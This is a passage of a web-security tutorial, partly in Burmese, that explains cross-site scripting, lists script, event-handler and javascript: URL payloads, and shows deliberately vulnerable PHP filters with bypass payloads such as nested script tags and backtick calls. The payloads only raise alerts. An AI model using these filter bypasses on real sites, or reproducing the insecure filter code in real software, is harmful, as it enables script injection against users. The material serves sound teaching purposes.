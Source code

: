 ## 7. Cross Site Scripting (XSS)

![](https://miro.medium.com/v2/resize:fit:600/0*OgDrgZakNWFRIiIu.png)

**What is XSS attack?**

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. (Taken From OWASP)

**Simple 3 Ways to exeecute javascript in browser**

>Using Script Tag

```
<script>alert('Hello');</script>
```

>Using Events

```
<img src=noimg onerror=alert('Hello');>
```

>Call JavaScript Functions in URL

```
<a href='javascript:alert("Hello");'>Click me</a>
```

**HTML events that can be used to execute JavaScript**

```
onAbort
onBlur
onChange
onClick
onDblClick
onDragDrop
onError
onFocus
onKeyDown
onKeyPress
onKeyUp
onLoad
onMouseDown
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMove
onReset
onResize
onSelect
onSubmit
onUnload
onscroll
onbort
onmouseleave
oninput
```

## Bypass Methods

**Replacement Filter**

>Example PHP Code

```
<?php
$name = preg_replace('/script/i', '', $_GET['name']);
echo $name;
?>
```

>Bypass Payload (String in String)

```
<scrscriptipt>alert('Hello')</scrscriptipt>
```

**Bypass ()**

>Example PHP Code

```
<?php
$name = $_GET['name'];
$ban = array('\(', '\)');
foreach($ban as $banned){
while(preg_match( '/'.$banned.'/i', $name)){
$name = preg_replace('/'.$banned.'/i', '', $name);}}
echo $name; ?>
```

>Bypass Payload

```
alert`Hello`
```

**Tips For XSS**

>1. Allow Uploading HTML File Or Unknown File Extensions Lead To XSS in some browser. Bypass Extensions (html,htm.pngs,jpegs,txts)
>2. အကယ်၍ XSS ေပါက်ေသာေနရာဟာ စကားလံုး Limited ထားရင်ေသာ်လည်းေကာင်း၊ Attack လုပ်နိုင်တဲ့ Function ေတွကို Ban ထားရင်ေသာ်လည်းေကာင်း ေအာက်ပါ Payloads များကိုအသံုးပြပါ။
